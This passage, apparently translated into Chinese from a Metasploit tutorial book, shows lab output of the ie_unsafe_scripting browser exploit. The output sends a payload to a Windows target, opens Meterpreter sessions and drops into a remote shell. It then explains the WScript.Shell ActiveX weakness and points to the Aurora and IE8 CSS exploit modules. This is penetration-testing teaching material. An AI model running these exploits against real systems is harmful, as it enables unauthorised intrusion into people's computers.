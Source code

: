 让我们切换到攻击 msfconsole 并注意活动。我们将注意到以下命令行活动：

```
msf exploit(ie_unsafe_scripting) > [*] Request received from 192.168.56.1:51115...
[*] Encoding payload into vbs/javascript/html...
[*] Sending exploit html/javascript to 192.168.56.1:51115...
[*] Exe will be uddoE.exe and must be manually removed from the %TEMP% directory on the target.
[*] Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.1:51116) at 2011-11-12 21:15:47 +0530 
```

我们还用 Windows7 机器打开了另一个活动会话。让我们开始与会话交互：

```
msf exploit(ie_unsafe_scripting) > sessions
Active sessions
===============
Id Type Information Connection
-- ---- ----------- ----------
1 meterpreter x86/win32 DARKLORD-9CAD38\darklord
2 meterpreter x86/win32 HackingAlert-PC\hackingalert 
```

如您所见，sessions 命令显示了可用的活动会话。一个是我们的 WinXP 机器，另一个是 Win7 机器。让我们继续与第二个会话交互，即 Windows 7 机器。

```
msf exploit(ie_unsafe_scripting) > sessions -i 1
meterpreter > shell
Process 4844 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7264]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32> 
```

## 它是如何工作的。。。

工作过程对您来说可能很清楚。让我们关注一下这种利用的原因。当设置“初始化并编写未标记为脚本安全的 ActiveX 控件”时，则允许访问 `WScript.Shell`ActiveX 控件。此 `WScript.Shell`对象提供读取文件系统、环境变量、读取和修改注册表以及管理快捷方式的功能。 `WScript.Shell`的此功能允许攻击者创建 JavaScript 与文件系统交互并运行命令。

## 还有更多。。。

让我们谈谈另一个重要的基于浏览器的漏洞，它可以用于客户端攻击。

### Internet Explorer 极光内存损坏

这是 IE 的另一个广泛使用的漏洞，于 2010 年年中曝光。这一缺陷是“极光行动”的关键组成部分，黑客在该行动中瞄准了一些顶级公司。此模块利用 IE 6 中的内存损坏缺陷。我将此模块作为一个练习留给您尝试和探索。该漏洞可在 `exploit/windows/browser/ms10_002_aurora`中找到。

# Internet Explorer CSS 递归调用内存损坏

这是运行 IE 浏览器的 Windows 平台可利用的最新漏洞之一。已知此漏洞会影响以 IE 8 作为默认浏览器的 Windows 7 和 Windows 2008 server。此漏洞利用的工作过程与我们刚才在前面的配方中讨论的过程类似。因此，让我们快速测试它。我们的目标机器是 Windows7 终极版，IE 8（未修补）作为默认浏览器运行。
